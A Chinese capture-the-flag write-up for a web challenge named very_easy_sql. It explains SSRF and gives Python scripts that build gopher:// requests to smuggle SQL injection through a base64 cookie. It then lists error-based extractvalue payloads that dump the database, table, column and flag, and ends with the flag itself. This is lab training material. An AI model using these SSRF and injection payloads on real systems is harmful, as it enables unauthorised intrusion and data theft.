









# WEB-攻防世界very_easy_sql
- 关键词 sql注入、ssrf漏洞攻击
## 1.题目描述
首先进去就看到一个登录页

尝试了常见的sql注入，发现没有可以注入的端点
附 常见sql探测
```shell
#判断如下闭合方式是否会报错，会报错则肯定存在注入
=test'                         
=test"                         
#若不报错则判断是否存在布尔盲注，如果页面会有不同的显示在可能存在漏洞
=test' and -1=-1 or '
=test' and -1=-2 or '  
         
=test" and -1=-1 or "
=test" and -1=-2 or "
```

页面上的提示you are not an inner user, so we can not let you have identify~很奇怪（后来才知道这种提示是在暗示有ssrf的漏洞了）。
毫无思路，查看源码（划掉，wp）。源码里发现注释里写了use.php

尝试直接访问use.php，得到如下页面

这时候有经验的师傅其实更加可以确定是ssrf漏洞了
但我没经验，所以只能看wp了
## ssrf详解
### 什么是ssrf
SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。
我理解的是相当于内网穿透，你获取到其中一个内网主机，可以用这个内网主机作为服务器向其他的内网机器发起攻击。SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。
### ssrf的利用
- 分享，通过URL地址分享网页内容，通过URL获取目标页标签等内容
- 转码服务，适应硬件设备的大小；
- 图片的加载与下载
- 图片，文章的收藏；
### 产生SSRF漏洞的函数
- `file_get_contents`
- `fsockopen()`
### ssrf漏洞利用
1. 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息;
2. 攻击运行在内网或本地的应用程序（比如溢出）;
3. 对内网web应用进行指纹识别，通过访问默认文件实现;
4. 攻击内外网的web应用，主要是使用get参数就可以实现的攻击（比如struts2，sqli等）;
5. 利用file协议读取本地文件等。.
6. 各个协议调用探针：http,file,dict,ftp,gopher等

本题目就是运用第六种，gopher协议。
### gopher协议
```python
import urllib.parse

host = "127.0.0.1:80"
content = "uname=admin&passwd=admin"
content_length = len(content)

test =\
"""POST /index.php HTTP/1.1
Host: {}
User-Agent: curl/7.43.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: {}

{}
""".format(host,content_length,content)
//按照标准，URL只允许一部分ASCII字符，其他字符（如汉字）是不符合标准的，此时就要进行编码。
因为我在构造URL的过程中要使用到中文：此时需要用到urllib.parse.quote，此处是为了替换特殊字符\
tmp = urllib.parse.quote(test)
new = tmp.replace("%0A","%0D%0A")
result = urllib.parse.quote(new)
print("gopher://"+host+"/_"+result)
```

用post把这串url发送到http://61.147.171.105:49851/use.php?url=去。
可以看到返回了一个setcockie

其中的YWRtaW4%3D经过url解码和base64解码之后，结果为admin
尝试cookie注入

## 解题思路
编写脚本
```python
import urllib.parse
import base64
import requests

host = "127.0.0.1:80"
payload = "admin'"
base64_payload = str(base64.b64encode(payload.encode("utf-8")), "utf-8")
cookie="this_is_your_cookie=" + base64_payload

test =\
"""GET /index.php HTTP/1.1
Host: {}
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie:{}

""".format(host,cookie)

tmp = urllib.parse.quote(test) 
new = tmp.replace("%0A","%0D%0A")
result = urllib.parse.quote(new) 
gopher = "gopher://"+host+"/_"+result

print(gopher)


url = 'http://61.147.171.105:49851/use.php?url=' + gopher
res = requests.get(url)
print(res.text)
```



经过多次尝试发现注入点为`admin') #` ，即可以尝试报错注入

## 注入步骤
1. 查数据库，payload为 `admin') and extractvalue(1, concat(0x7e, (select database()),0x7e)) #` 得到结果为

2. 查表，payload为`admin') and extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='security'),0x7e)) #` 结果为：

3. 因为上一步得到了flag表，因此查flag表中的字段，payload为`admin') and extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='flag'),0x7e)) #` 结果为：
4. 查内容，由于只有flag一个字段，payload为`admin') and extractvalue(1, concat(0x7e, (SELECT flag from flag),0x7e)) #` ，结果为
5. 此时出现了另一个问题，报错的回显最大位数为31位，此时我们只获得前了31位（数一下就行），需要用substr函数进行分割读取后面的位数：`admin') and extractvalue(1, concat(0x7e, substr((SELECT flag from flag),32),0x7e)) #` （意思是从第32位开始截取）结果为：
6. 将两次的结果合并即可
`cyberpeace{812b25eedd2520a4beeef2bca1ce7832}`